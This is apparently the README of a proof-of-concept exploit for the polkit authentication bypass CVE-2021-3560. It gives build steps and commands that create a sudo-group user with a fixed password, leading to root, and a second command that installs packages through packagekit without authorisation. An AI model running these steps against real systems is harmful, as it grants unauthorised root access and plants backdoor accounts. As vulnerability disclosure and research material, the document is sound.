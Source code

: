 # CVE-2021-3560

This directory contains a proof of concept exploit for CVE-2021-3560:
an authentication bypass vulnerability in
[polkit](https://gitlab.freedesktop.org/polkit/polkit).

The vulnerability is described in [this blog
post](https://github.blog/2021-06-10-privilege-escalation-polkit-root-on-linux-with-bug/).

# Build

Instructions for building the PoC:

```bash
git submodule update --init  # Download https://github.com/kevinbackhouse/DBusParse
mkdir build
cd build
cmake ..
make
```

# Running

The PoC exploits an authentication bypass vulnerability in polkit
to create a new user account with `sudo` privileges.

Note: if the PoC is run in a graphical session such as GNOME, then it
will cause the dialog box for the authentication agent to pop up
repeatedly, which is very annoying and also prevents the PoC from
working. That is why the first step in the instructions below is
`ssh localhost`.

```bash
ssh localhost
cd build
./createuser /var/run/dbus/system_bus_socket boris iaminvincible!
```

Assuming that the PoC is successful, there should now be a user named
`boris`:

```bash
$ id boris
uid=1008(boris) gid=1008(boris) groups=1008(boris),27(sudo)
```

You can now login as boris, using password "iaminvincible!":

```bash
su - boris  # password: iaminvincible!
```

And since `boris` is a member of the `sudo` group, you can now escalate
privileges to `root`.

## Non-graphical systems

The `createuser` PoC depends on two packages being installed:
`accountsservice` and `gnome-control-center`. Those packages might not
be installed on some systems, such as a non-graphical RHEL server.
However, the polkit vulnerability can also be used to exploit
[packagekit](https://packagekit.freedesktop.org/), which means that we
can use the vulnerability to install `accountsservice` and
`gnome-control-center`.

You can run the `packagekit` PoC like this:

```bash
./installpackage /var/run/dbus/system_bus_socket gnome-control-center
```
